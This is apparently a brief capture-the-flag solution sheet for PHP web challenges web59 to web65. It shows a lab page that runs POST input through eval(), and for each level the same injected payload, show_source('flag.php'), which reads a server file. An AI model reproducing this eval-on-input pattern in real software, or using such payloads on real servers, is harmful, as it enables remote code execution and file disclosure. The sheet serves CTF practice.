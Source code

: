 ## web59

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

```php
c=show_source('flag.php');
```

## web60

```php
c=show_source('flag.php');
```

## web61

```php
c=show_source('flag.php');
```

## web62

```php
c=show_source('flag.php');
```

## web63

```php
c=show_source('flag.php');
```

## web64

```php
c=show_source('flag.php');
```

## web65

```php
c=show_source('flag.php');
```
